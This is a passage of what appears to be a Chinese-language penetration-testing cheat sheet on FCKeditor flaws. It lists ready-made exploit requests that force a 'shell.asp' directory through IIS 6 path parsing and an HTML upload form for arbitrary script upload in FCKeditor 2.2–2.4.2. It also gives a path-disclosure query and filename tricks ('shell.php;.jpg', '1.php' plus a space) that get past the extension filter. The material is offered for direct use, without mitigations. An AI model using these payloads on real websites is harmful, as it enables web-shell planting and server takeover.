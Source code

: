 影响版本: 附录 B 脆弱描述： 利用 2003 系统路径解析漏洞的原理，创建类似`bin.asp`如此一般的目录，再在此目录中上传文件即可被脚本解释器以相应脚本权限执行。 攻击利用:

```
fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp 
```

强制建立 shell.asp 目录：

```
FCKeditor/editor/filemanager/connectors/asp/connector.asp?Command=CreateFolder&Type=Image&CurrentFolder=/shell.asp&NewFolderName=z&uuid=1244789975684 
```

or

```
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=CreateFolder&CurrentFolder=/&Type=Image&NewFolderName=shell.asp 
```

Note:[｀Sn4k3!]这个我也不知道咯，有些时候，手动不行，代码就是能成功，囧。

### FCKeditor PHP 上传任意文件漏洞

影响版本: FCKeditor 2.2 <= FCKeditor 2.4.2 脆弱描述： FCKeditor 在处理文件上传时存在输入验证错误，远程攻击可以利用此漏洞上传任意文件。 在通过 editor/filemanager/upload/php/upload.php 上传文件时攻击者可以通过为 Type 参数定义无效的值导致上传任意脚本。 成功攻击要求 config.php 配置文件中启用文件上传，而默认是禁用的。攻击利用: (请修改 action 字段为指定网址)：

```
<form id="frmUpload" enctype="multipart/form-data"
action="http://navisec.it/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" method="post">Upload a new file:<br>
<input type="file" name="NewFile" size="50"><br>
<input id="btnUpload" type="submit" value="Upload">
</form> 
```

Note:如想尝试 v2.2 版漏洞，则修改 Type=任意值 即可，但注意，如果换回使用 Media 则必须大写首字母 M,否则 LINUX 下，FCKeditor 会对文件目录进行文件名校验，不会上传成功的。

### FCKeditor 暴路径漏洞

影响版本：aspx 版 FCKeditor 攻击利用：

```
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=File&CurrentFolder=/1.asp 
```

### FCKeditor 文件上传“.”变“_”下划线的绕过方法

影响版本: FCKeditor => 2.4.x 脆弱描述： 我们上传的文件例如：shell.php.rar 或 shell.php;.jpg 会变为 shell_php;.jpg 这是新版 FCK 的变化。 攻击利用:

```
提交 1.php+空格 就可以绕过去所有的, 
```
